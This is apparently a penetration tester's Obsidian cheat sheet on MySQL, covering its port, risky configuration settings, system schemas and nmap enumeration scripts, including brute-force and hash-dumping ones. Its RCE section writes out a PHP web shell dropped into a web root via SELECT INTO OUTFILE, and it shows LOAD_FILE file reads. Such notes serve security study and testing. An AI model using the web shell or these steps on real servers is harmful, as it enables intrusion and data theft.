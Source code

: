```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```

## Summary
*MySQL* uses a client-server principle with one server and multiple clients. Often stores database as a single `.sql` file.

Often used with (Linux, Apache, MySQL, PHP - *LAMP*) or Nginx (*LEMP*). Very often these databases are accessible from an external network (due to misconfigurations, forgetting settings, or technical workarounds).

**Standard Port:** 
- 3306/tcp - commonly used for MySQL server

**Version Names:** 

| service name | releases link | notes         |
| ------------ | ------------- | ------------- |
| MariaDB      |               | Fork of MySQL |

## Configuration
```
sudo apt install mysql-server -y
```
*/etc/mysql/mysql.conf.d/mysqld.cnf* - [MySQL reference](https://dev.mysql.com/doc/refman/8.0/en/server-system-variables.html)

### Dangerous Settings
- `user` : Which user to run the service as *(stored plaintext)*
- `password` : Password for the DB user *(stored plaintext)*
- `admin_address` : IP address for the admin network interface *(stored plaintext)*
- `debug` : Current debug settings (eg. logging)
- `sql_warnings` : Whether a single-row INSERT statement should produce warnings
- `secure_file_priv` : Limit the effect of data import and export operations

### Default Setup
- *system schema* (*sys*) : [docs](https://dev.mysql.com/doc/refman/8.0/en/system-schema.html)
	- `host_summary` table contains host information : `select host, unique_users from host_summary;`
- *information schema* (*information_schema*) : metadata database
- *mysql* : system database that information required by MySQL Server
- *performance schema* (*performance_schema*) : feature for monitoring MySQL Server execution at a low level
## [[Basic SQL Syntax]]

## Potential Capabilities
- Potentially gain access to sensitive information in the database
- View sensitive logs and error outputs that could indicate further attack possibilities
- RCE by writing files to executable directories
### RCE (Writing files)
MySQL doesn't have a way to directly execute code (unlike [[MSSQL#RCE]]), but you can write files, meaning you could write a file to an executable dir (eg. a web server root) and then execute it through the web server. If the mysql service has enough privileges, it can write using `SELECT INTO OUTFILE`.
```sql
mysql> SELECT "<payload>" INTO OUTFILE '<path>';
mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```
> The `secure_file_priv` global system variable limits the effects of data import and export operations. These operations can only be performed by users with the `FILE` privilege anyways.
> If `secure_file_priv` is set to:
> - `<empty>` : then the variable has no effect (this is dangerous)
> - `<name of dir>` : only data import/export ops can be performed in that directory (dir must exist, server won't create it)
> - `NULL` : disables all import/export ops

### Reading Files
If appropriate settings and privileges allow it, we can read files too
```sql
mysql> SELECT LOAD_FILE("<path>");
```

## Enumeration Checklist

| Goal                          | Command(s)                                                                                                                                                                                  | Refs                                                                                          |
| ----------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------- |
| Identify the service via Nmap | sudo nmap [ip] -sC -sV -p3306 --script mysql*                                                                                                                                               |                                                                                               |
| Connect with a client         | mysql -u [user] -p[password] -h [ip]                                                                                                                                                        | [guide](https://dev.mysql.com/doc/mysql-getting-started/en/#mysql-getting-started-installing) |
| Show information              | show databases;<br><br>use [database name];<br><br>show tables;<br><br>show columns from [table];<br><br>select \* from [table];<br><br>select \* from [table] where [column] = "[string]"; |                                                                                               |
| Get version                   | select version();                                                                                                                                                                           |                                                                                               |
| Linux GUI App                 | sudo dpkg -i dbeaver-<version>.deb<br><br>dbeaver &                                                                                                                                         | [https://github.com/dbeaver/dbeaver/releases](https://github.com/dbeaver/dbeaver/releases)    |
### Nmap Scripts
> always manually validate results for false positives
- mysql*
- mysql-brute
- mysql-databases
- mysql-dump-hashes
- mysql-empty-password
- mysql-enum
- mysql-info
- mysql-users
- mysql-variables
- mysql-vuln*
